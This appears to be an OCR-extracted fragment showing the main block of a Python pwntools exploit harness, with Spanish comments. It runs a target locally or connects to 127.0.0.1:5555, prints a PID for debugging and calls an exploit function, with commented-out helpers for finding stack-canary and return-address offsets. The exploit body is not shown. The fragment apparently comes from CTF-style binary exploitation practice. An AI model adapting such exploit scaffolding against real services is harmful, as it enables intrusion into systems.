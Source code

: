 if __name__ == "__main__":
    if len(sys.argv)==2 and sys.argv[1]=="remote":
        REMOTE = True
        r = remote("127.0.0.1", 5555)
    else:
        LOCAL = True
        r = process([TARGET,])
        print "PID para debug"
    print util.proc.pidof(r) #solo para atachar a GDB soy flojo
        #pause() #ermm
    exploit(r)
    #offset_canary()
   #offset_ret(r)
    sys.exit(0)
</code></pre>

